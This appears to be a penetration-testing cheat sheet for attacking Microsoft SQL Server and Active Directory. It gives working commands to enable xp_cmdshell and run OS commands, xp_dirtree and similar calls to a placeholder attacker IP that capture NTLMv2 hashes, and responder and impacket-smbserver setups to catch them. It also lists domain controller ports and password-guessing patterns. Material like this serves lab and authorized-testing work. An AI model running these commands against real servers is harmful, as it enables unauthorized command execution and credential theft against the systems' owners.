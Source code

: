 ### Execute commands

Execute commands:

```bash
EXECUTE sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE;

EXEC master..xp_cmdshell 'whoami'
```

### Steal NTLMv2 Hash

Steal NTLMv2 Hash

```bash
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'
```

We must have enable a listener with responder or and SMB server.

```bash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
```

### Common ports

- Port 53 is open and is hosting a DNS service over TCP
- Port 80 is open and is hosting an HTTP server
- Port 88 is open and is hosting the kerberos service.
- Ports 135 / 139 / 445 are open and are hosting the RPC / NetBIOS / SMB share services respectively.
- Ports 389 / 3268 and 636 / 3269 are open and hosting the LDAP/S services respectively
- Port 464 is open are hosting a Kerberos password change service, typically seen on DCs and generally not of much interest.
- Ports 593 and 5722 are hosting RPC services.
- Port 5985 is hosting the WinRM service, which will be good if credentials are found. 5986 is WinRM but SSL.
- Port 9389 is hosting the .NET Message Framing service.
- Ports 49xxx are hosting the high port RPC services.

### Bruteforce

If we have perform a full recon over the domain a none of this services are accessible we want to try other simpler ways to have a foothold:

- try username as password
- username and append some payloads
- try common passwords
- try first letter username - full last name- a year
- try username and the lastname
